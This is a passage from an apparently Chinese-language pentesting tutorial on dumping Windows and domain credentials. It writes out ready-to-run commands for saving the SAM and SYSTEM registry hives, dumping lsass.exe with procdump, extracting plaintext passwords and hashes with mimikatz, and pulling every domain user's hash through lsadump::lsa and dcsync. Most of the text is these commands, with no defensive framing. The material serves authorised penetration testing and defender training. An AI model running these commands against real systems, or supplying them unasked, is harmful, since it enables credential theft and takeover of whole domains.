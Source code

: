 #### 1.2 SAM表获取hash

```bash
#导出SAM数据
reg save HKLM\SYSTEM SYSTEM
reg save HKLM\SAM SAM

#使用mimikatz提取hash
lsadump::sam /sam:SAM /system:SYSTEM
```

### 0x02 Procdump+Mimikatz

当mimikatz无法在主机上运行时，可以使用微软官方发布的工具Procdump导出lsass.exe:

```perl
procdump64.exe -accepteula -ma lsass.exe lsass.dmp
```

将lsass.dmp下载到本地后，然后执行mimikatz:

```bash
mimikatz.exe "sekurlsa::minidump lsass.dmp" "sekurlsa::logonPasswords full" exit
```

为了方便复制与查看，可以输出到本地文件里面：

```bash
mimikatz.exe "sekurlsa::minidump lsass.dmp" "sekurlsa::logonPasswords full" > pssword.txt
```

### 0x03 读取域控中域成员Hash

#### 3.1 域控本地读取

注：得在域控上以域管理员身份执行mimikatz

方法一：直接执行

```makefile
#提升权限
privilege::debug

抓取密码
lsadump::lsa /patch
```

方法二：通过 dcsync，利用目录复制服务（DRS）从NTDS.DIT文件中检索密码哈希值，可以在域管权限下执行获取：

```bash
#获取所有域用户
lsadump::dcsync /domain:test.com /all /csv

#指定获取某个用户的hash
lsadump::dcsync /domain:test.com /user:test
```

#### 3.2 导出域成员Hash
